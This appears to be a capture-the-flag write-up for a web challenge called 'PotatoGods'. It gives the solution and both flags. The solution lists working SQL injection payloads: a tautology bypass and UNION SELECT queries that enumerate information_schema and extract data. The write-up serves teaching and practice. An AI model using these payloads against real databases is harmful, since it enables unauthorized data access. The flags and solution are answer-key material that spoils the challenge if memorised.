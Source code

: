 # PotatoGods

## Question Text

I built this really amazing website for my favourite food, POTATOES! I'm veryyyy sure it's secure. Prove me wrong :D

`http://web.chal.gryphonctf.com:18704`

*Creator - whoami*

### Hints (Optional)

Level 1 - Injections are fun!

Level 2 - https://www.youtube.com/watch?v=ll09F5mVwb8

## Setup Guide

Run `./build.sh`



## Solution

Both text fields are vulnerable to SQL injection

Level 1 - `a' or '1' = '1 `. Simple SQL Injection to get the database to return the queries

Level 2 :

- Another form of SQL Injection which requires knowledge of how to list all tables and columns. 3 commands are required to get the flag. 

- `1' union select TABLE_SCHEMA, TABLE_NAME from information_schema.tables #` To list all tables in the database. As the SQL statement would only retrieve 2 columns, only 2 columns can be specified in the statement
- `1' union select table_name, column_name from information_schema.columns where table_name = 'flaggyflagflagnotgonnaspotthis' #` Table name 'flaggyflagflagnotgonnaspotthis' can be found by running the previous statement
- `1' union select flagid, flag from flaggyflagflagnotgonnaspotthis #` To retrieve the flag



Flags: 

Level 1 - `GCTF{A1way5_5aN1t1Z3_1nPut5}`

Level 2 - `GCTF{SQ1_15_5uP3R_53cUR3}`
